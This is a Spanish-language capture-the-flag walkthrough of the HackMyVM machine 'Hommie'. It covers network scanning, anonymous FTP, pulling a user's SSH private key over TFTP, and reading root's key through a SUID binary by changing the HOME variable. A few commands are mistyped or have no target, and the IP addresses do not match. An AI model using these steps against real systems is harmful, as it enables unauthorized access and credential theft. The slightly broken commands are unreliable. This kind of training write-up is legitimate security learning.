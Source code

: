 ## MAQUINA HOMMIE

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20202308.png)

Utilizamos netdiscover para ver las maquinas conectadas a nuestra red.

```bash
netdiscover -i eth0 -r 192.168.0.162
```

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20184513.png)

Una vez tengamos la IP de maquina victima lanzamos un ping para ver si tenemos conexion con ella.

```bash
ping -c 192.168.0.123
```

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20184600.png)

Seguido a esto usamos nmap para ver los servicio y puertos abiertos.

```bash
nmap --open -sC -sV -oN fullscan.txt
```

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20184818.png)

Tenemos como resultado el puerto 21 ftp, el puerto 22 ssh y el puerto 80 http.

Ingresamos al servidor web, con whatweb vemos mas info. sobre la pagina y luego tenemos una frase dirigida a "alexia" y dice que su "id_rsa esta expuesta"

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20185533.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20185652.png)

El escaneo de script de nmap nos mostro que el puerto 21 ftp se puede loguear de forma anonima.

```bash
ftp 192.168.0.123

---> anonymous
```

Haciendo un ls -la dentro del ftp tenemos un directorio llamado ".web"

#atención!

En el directorio normal no podemos subir nada, en el directorio .web si! osea que vamos a tratar de subir una revershell para conectarnos a la maquina victima.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20194249.png)

Esto nos da resultado negativo y ya no tenemos ni idea de como seguir.. por eso se me dio x buscar en chatgpt si existe "otros servicio de tranferencia similares al ftp", y tenemos este resultado

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Captura%20de%20pantalla%202024-03-19%20193121.png)

Claro ! existe el protocolo tftp, este servicio corre en el puerto 69 y se envian los archivos atravez de UDP. 

Ahora hacemos volvemos a escanear otra vez los puertos con nmap.

```bash
nmap -p- --open -sU -sS --min-rate 4000 -vvv -n -Pn 192.168.0.123
```
![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200307.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200328.png)

Seguido al terminar el escaneo nos conectamos ya que no nos pide autorizacion y con el comando "help" vemos los comando a utilizar, descargamos la id_rsa con "get".

```bash
tftp 192.168.0.213
help
get id_rsa
```

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200510.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200759.png)

Listo tenemos la clave id_rsa de la usuaria alexia.

Le damos permiso 600 a la ida_rsa

```bash
chmod 600 id_rsa
```
Y nos conectamos atravez del ssh

```bash
ssh -i ida_rsa alexia@192.168.0.213
```
Listo somos la usuario alexia y ahora nos queda elevar los maximos privilegios

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200807.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20200901.png)

Una vez adentro buscamos binarios SUID para poder escalar priv.

```bash
find  / -user root -perm /4000 2>/dev/null
```
Y tenemos la siguiente ruta:

>/opt/showMetheKey

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20201109.png)

Con el comando "strings" leemos el archivo para ver que es lo que hace,
se ve que lee el comando "$HOME/.ssh/id_rsa"
Lo que hacemos es un  PATHHIJACKING para cambiar la ruta en que lee el archivo configurandolo a root:

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20201121.png)

```bash
>echo $HOME
/home/alexia
>HOME=/root
>echo $HOME
/root
```

#!atencion esto es lo que hicimos!

Estos comandos están modificando y mostrando el valor de la variable de entorno `$HOME`, que generalmente apunta al directorio de inicio del usuario en sistemas Unix y Linux.

1. `echo $HOME`: Este comando muestra el valor actual de la variable de entorno `$HOME`. En este caso, muestra `/home/alexia`, lo que indica que el directorio de inicio actual del usuario es `/home/alexia`.
    
2. `HOME=/root`: Este comando modifica el valor de la variable de entorno `$HOME` y establece su nuevo valor en `/root`, que es el directorio de inicio del usuario root en sistemas Unix y Linux.
    
3. `echo $HOME`: Después de cambiar el valor de `$HOME`, este comando muestra el nuevo valor de la variable de entorno `$HOME`. En este caso, muestra `/root`, lo que indica que el directorio de inicio actual del usuario ha sido cambiado a `/root`.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20201729.png)

Volvemos a correr el archivo ./showMetheKey y proporcina como resultado una id_rsa (que este id_rsa es lo que lee el apartado anterior "cat $HOME/.ssh/id_rsa")

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20201729.png)

Damos permisos a la id_rsa y luego nos conectamos a la ip de la maquina como usuarios root y listo.

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20201957.png)

![imagen](https://github.com/Qu0kk4/Quokka/blob/main/HackMyVm/image/Screenshot%202024-03-18%20202115.png)
















